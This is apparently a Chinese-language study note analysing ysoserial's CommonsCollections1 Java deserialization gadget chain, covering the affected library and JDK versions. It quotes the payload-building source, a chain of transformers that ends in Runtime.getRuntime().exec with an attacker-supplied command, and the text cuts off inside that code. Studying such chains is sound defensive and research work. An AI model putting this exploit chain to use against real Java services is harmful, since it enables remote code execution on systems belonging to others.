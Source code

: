 # CommonsCollections1利用链分析

## 前言

这里开始学习分析`ysoserial`工具中的第一条`CommonsCollections`利用链，根据`payload`名称称呼为`CommonsCollections1`
![image-20220919220735401](images/image-20220919220735401.png)

利用版本：CommonsCollections 3.1 - 3.2.1
限制：jdk 8u71 版本之前

## 利用链分析

我们先看一下`ysoserial`实现`CommonsCollections1`的关键源码：
```java
public InvocationHandler getObject(final String command) throws Exception {
		final String[] execArgs = new String[] { command };
		// inert chain for setup
		final Transformer transformerChain = new ChainedTransformer(
			new Transformer[]{ new ConstantTransformer(1) });
		// real chain for after setup
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };

		final Map innerMap = new HashMap();

		final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

```